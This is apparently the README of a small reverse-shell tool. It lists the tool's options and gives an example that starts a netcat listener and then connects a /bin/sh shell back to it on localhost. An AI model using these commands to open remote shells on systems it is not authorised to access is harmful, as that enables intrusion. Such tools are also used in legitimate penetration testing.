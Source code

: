 # reverse-shell

A simple reverse shell

## Usage

```
usage: reverse-shell [options] <host> <port>
options:
	-h         : display this and exit
	-v         : display version and exit
	-f         : foreground mode (eg: no fork)
	-6         : use IPv6 socket
	-s <shell> : give the path shell (default: /bin/sh)
```

## Example

On the 'client' side, we create the listener :
```
nc -lp 4445
```

On the 'server' side, we bind the shell to the listener :
```
./reverse-shell 127.0.0.1 4445
```
